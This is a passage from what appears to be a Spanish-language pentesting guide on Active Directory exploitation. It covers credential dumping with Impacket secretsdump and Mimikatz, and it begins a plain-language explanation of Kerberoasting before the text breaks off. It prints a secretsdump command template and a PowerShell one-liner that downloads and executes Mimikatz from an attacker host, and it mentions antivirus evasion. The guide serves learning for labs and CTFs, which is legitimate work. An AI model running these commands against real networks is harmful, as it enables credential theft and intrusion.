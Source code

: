  Identifica Riesgos no Obvios: Revela caminos indirectos donde un usuario normal tiene inesperadamente un permiso de administrador local sobre un servidor crítico.

 Genera Informes de Mitigación: En la auditoría de seguridad, ayuda a los defensores (Blue Team) a visualizar y corregir las configuraciones erróneas de permisos que crean estas rutas de ataque.

Le di tanta importancia a esta herramienta porque considero que, es super necesario aprender a usar la, te facilita de una manera excepcional la escalda de privilegios, te da paso a paso de lo que tienes que hacer y más que nada es como que vas aprendiendo todo lo que necesitas saber, entiendes como funcionan los hash los TGT. Me parece indispensale saber utilizar la.

## Explotación

Vale hemos visto lo principal e importante de como poder enumerar un AD, pero ¿como lo podemos explotar?.Estas son algunas de las **Tecnicas de explotacion**.

##### Credential Dumping

Imagina que ya lograste entrar en la oficina de seguridad de una empresa, pero solo estás en la recepción. El Credential Dumping es esa movida crucial donde buscas y le robas las llaves (las contraseñas o hashes) a los empleados que están adentro. Estas son las herramientas que podemos usas para esta tecnica

1. Impacket-secretsdump

```bash
secretsdump.py -sam <SAM> -system <SYSTEM> [-security <SECURITY>] LOCAL
```
Para este ataque, tienes que tener el archivo SAM y el LOCAL, si no no va a ser posible. Puedes ver un ejemplo practico en la maquina [Freelancer](https://atr4x.vercel.app/es/guides/hard/freelancer/#impacket-secretsdump) que sin duda es una de las más dificiles que he echo.

2. Mimikatz

Sin duda es una de las herramientas más infames y poderosas que existe en el mundo de la ciberseguridad.Es LA herramienta predilecta para el credential dumping. Tiene varios problemas, al ser tan utilizada,el defender lo puede detectar muy facilmente, ni usando nuestro oneLiner de confianza `IEX(New-Object Net.WebClient).downloadString('http://your-ip/mimikatz.exe')` es posible que no funcione. así que podemos usar tecnicas de evasion de antivirus. más adelante haremos un articulo de esto. es un tema muy interesante.

#### Kerberoasting

El Kerberoasting es un ataque de robo de contraseñas de cuentas de servicio, ideal para escalar privilegios en una red Windows. 🏹

Imagina que quieres entrar a la sala de servidores, pero solo tienes la tarjeta de acceso de un empleado de bajo nivel. Sabes que dentro hay muchas Cuentas de Servicio (usuarios especiales, como el de la base de datos o el del servidor web) que tienen acceso total a esos servidores críticos.

El ataque funciona así, de manera sigilosa y sin generar ruido:

La Petición Engañosa: El atacante, usando su acceso de bajo nivel, le pide al jefe de seguridad (el Controlador de Dominio o DC) un ticket de acceso para una de esas Cuentas de Servicio. La solicitud es totalmente normal y legal.

- La Trampa en el Ticket: El DC, sin sospechar nada, crea el ticket y lo cifra usando la contraseña de la Cuenta de Servicio. Luego se lo envía al atacante.
